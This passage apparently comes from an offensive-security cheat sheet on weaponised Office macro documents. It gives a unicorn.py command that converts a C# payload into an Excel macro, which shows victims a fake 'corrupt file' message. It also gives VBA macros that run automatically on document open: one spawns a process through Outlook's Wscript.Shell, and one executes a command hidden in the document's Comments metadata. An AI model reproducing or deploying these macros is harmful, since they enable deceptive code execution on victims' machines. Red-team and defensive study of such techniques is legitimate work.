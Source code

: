 ## DOCM - C# converted to Office VBA macro

> A message will prompt to the user saying that the file is corrupt and automatically close the excel document. THIS IS NORMAL BEHAVIOR! This is tricking the victim to thinking the excel document is corrupted.

https://github.com/trustedsec/unicorn

```ps1
python unicorn.py payload.cs cs macro
```

## DOCM - VBA Wscript

> https://www.darkoperator.com/blog/2017/11/11/windows-defender-exploit-guard-asr-rules-for-office

```ps1
Sub parent_change()
    Dim objOL
    Set objOL = CreateObject("Outlook.Application")
    Set shellObj = objOL.CreateObject("Wscript.Shell")
    shellObj.Run("notepad.exe")
End Sub
Sub AutoOpen()
    parent_change
End Sub
Sub Auto_Open()
    parent_change
End Sub
```

## DOCM - VBA Shell Execute Comment

Set your command payload inside the **Comment** metadata of the document.

```vb
Sub beautifulcomment()
    Dim p As DocumentProperty
    For Each p In ActiveDocument.BuiltInDocumentProperties
        If p.Name = "Comments" Then
            Shell (p.Value)
        End If
    Next
End Sub

Sub AutoExec()
    beautifulcomment
End Sub

Sub AutoOpen()
    beautifulcomment
End Sub
```
